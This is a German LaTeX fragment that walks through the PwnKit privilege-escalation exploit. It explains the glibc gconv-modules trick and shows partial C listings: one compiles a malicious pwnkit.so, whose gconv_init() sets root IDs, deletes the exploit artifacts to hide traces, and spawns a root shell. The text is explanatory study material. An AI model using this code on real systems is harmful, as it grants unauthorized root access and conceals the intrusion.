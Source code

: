 \documentclass[oneside,11pt,a4paper,article,german]{memoir}
\begin{document}
\par
Legt das Verzeichnis \texttt{pwnkit/} an und erzeugt darin die Datei \texttt{gconv-modules}.
Diese Datei konfiguriert für \texttt{glibc} ein benutzerdefiniertes zeichenkonvertierungsmodul.
Wird eine Konvertierung von \texttt{UTF-8} nach \texttt{PWNKIT} angefordert, lädt \texttt{glibc} das Modul \texttt{pwnkit.so}.
Beim Laden dieses Moduls wird später die Funktion \texttt{gconv\_init()} automatisch ausgeführt.
\par Der Aufbau eines Eintrags in der Datei \texttt{gconv-modules} folgt dem Schema
\texttt{module <FROM>// <TO>// <MODULE> <PRIORITY>}.
Dabei beschreibt hier \texttt{<FROM>} den Quellzeichensatz \texttt{UTF-8}, \texttt{<TO>} den Zielzeichensatz
\texttt{PWNKIT}, \texttt{<MODULE>} den Namen des zu ladenden Moduls \texttt{pwnkit.so} und
\texttt{<PRIORITY>} die erhöhte Ladepriorität des Moduls.

\par

\begin{lstlisting}[caption={Schreiben und Kompilieren des Moduls}]
    fp = fopen("pwnkit/pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
\end{lstlisting}

\par
Schreibt den in der Variable \texttt{shell} enthaltenen C-Code in die Datei \texttt{pwnkit/pwnkit.c} und kompiliert diesen anschließend zu einer
dynamsichen Bibliothek \texttt{pwnkit.so}.
Diese Bibliothek wird später durch den \texttt{gconv}-Mechanismus von \texttt{glibc} geladen.
\par

\begin{lstlisting}[caption={Payload mit \texttt{gconv\_init()}}]
    char *shell =
    [...]
    "void gconv() {}\n"
    "void gconv_init() {\n"
    "    setuid(0); setgid(0);\n"
    "    seteuid(0); setegid(0);\n"
    "    system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
    [...]
\end{lstlisting}

\par
Die Funktion \texttt{gconv\_init()} wird automatisch ausgeführt, sobald das Modul \texttt{pwnkit.so} geladen wird.
Durch \texttt{setuid(0)} und \texttt{setgid(0)} werden Root-Privilegien gesetzt. Anschließend wird eine Root-Shell \texttt{/bin/sh} gestartet.
Vor dem Start der Shell werden die angelegten Exploit-Artefakte entfernt, um Spuren zu minimieren.
\par
\end{document}
